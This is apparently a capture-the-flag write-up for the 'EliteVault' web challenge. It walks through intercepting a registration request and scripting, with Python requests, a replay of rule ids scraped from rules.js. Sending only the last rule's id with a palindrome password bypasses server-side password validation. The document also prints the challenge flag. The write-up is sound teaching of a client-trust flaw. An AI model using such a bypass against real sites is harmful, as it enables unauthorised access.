


# Overview

> ## EliteVault
> **Description**\
> I heard about this password manager from a cybersecurity influencer on TikTok. They don’t let just anyone have an account; you’ve first got to prove you’re serious about security.


# Walkthrough

Once we connect to the instance in a browser, we see options to "Log In" or "Register". We choose "Register" and provide the username of "admin". We're told that is not an existing user, and we can create the account by entering a password that meets their standards.

After entering our favorite: "Password1", we see that our password is checked against a set of rules.



The "Register" button is disabled. Let's see what will happen if we submit the request with only these 4 rules passed.



We see a POST request to /register_attempt containing
```json
{
  "username": "admin",
  "password": "Password1",
  "rules_satisfied": [
    "c4ca4238a0b923820dcc509a6f75849b",
    "c81e728d9d4c2f636f067f89cc14862c",
    "eccbc87e4b5ce2fe28308fd9f2a7baf3",
    "a87ff679a2f3e71d9181a67b7542122c"
  ]
}
```
and the response contains
```json
{"message":"You need to satisfy 38 more rules!"}
```

If we look at some of the files loaded, we see rules.js which contains the list of rules that must be satisfied
```javascript
const rules = [
    { "id": "c4ca4238a0b923820dcc509a6f75849b", "text": "Rule 1: Password must be at least 8 characters long.", "check": p => p.length >= 8 },
    { "id": "c81e728d9d4c2f636f067f89cc14862c", "text": "Rule 2: Must contain an uppercase letter.", "check": p => /[A-Z]/.test(p) },
    ...
    { "id": "a1d0c6e83f027327d8461063f4ac58a6", "text": "Rule 42: Must be a palindrome.", "check": p => p === p.split('').reverse().join('') },
];

```
It would seem that the POST request to /register_attempt sends an array of rule ids from this file that have passed the checks client side. 

Let's try a script to send all the rule ids.
```python
#!/usr/bin/env python3
import re
from requests import Session
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-url', type=str, required=True)
args = parser.parse_args()

url = args.url

sess = Session()
resp = sess.get(f'{url}/login')
resp = sess.post(f'{url}/login_attempt_post', json={'username': 'admin'})

# Get the list of rules
resp = sess.get(f'{url}/static/rules.js')

# Put the ids into a list
rule_ids = re.findall(r'"id": "(.*?)"', resp.text, re.MULTILINE)


data = {'username': 'admin',
        'password': 'Password1',
        'rules_satisfied': rule_ids}

resp = sess.post(f'{url}/register_attempt', json=data, allow_redirects=True)
print(resp.text)
```
The response returned is
```json
{"message":"Your password only satisfies 16 of 42 rules."}
```
It would seem the server is validating our password against the rules again. However, our browser test only passed the first 4 rules, but the server did not stop at the first failed rule and kept on checking against them all.

Let's try sending only the first rule id repeated 42 times by changing the data section of the script.
```python
data = {'username': 'admin',
        'password': 'Password1',
        'rules_satisfied': [rule_ids[0]] * len(rule_ids)}

```
The response we receive is
```json
{"message":"You didn't satisfy all the rules!"}
```
That's currious. We were not told how many rules we passed, just that we didn't "satisfy all the rules".\
What if we try sending the _**last**_ rule id 42 times?
```python
data = {'username': 'admin',
        'password': 'Password1',
        'rules_satisfied': [rule_ids[-1]] * len(rule_ids)}
```
The response is now
```json
{"message":"Your password only satisfies 0 of 42 rules."}
```
The server must be looking for the id of rule 42 to be in the list before it tries to check the password against the rules.\
So let's satisfy that one: ```Rule 42: Must be a palindrome.```

```python
data = {'username': 'admin',
        'password': 'abba',
        'rules_satisfied': [rule_ids[-1]] * len(rule_ids)}
```
This time, we get redirected to the vault page, which contains the flag

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>EliteVault</title>
    <link rel="stylesheet" href="/static/style.css">
</head>
<body class="success-body">
    <div class="success-container">
        <h1>Congratulations, admin!</h1>
        <p>Your password has been validated as secure.<br/>Confirmation code:</p>
        <div class="flag-box">
            <h3><pre>BarSides{1n_cl13n7_51d3_w3_7ru57_700_much}</pre></h3>
        </div>
    </div>
</body>
</html>
```
Flag:
```
BarSides{1n_cl13n7_51d3_w3_7ru57_700_much}
```
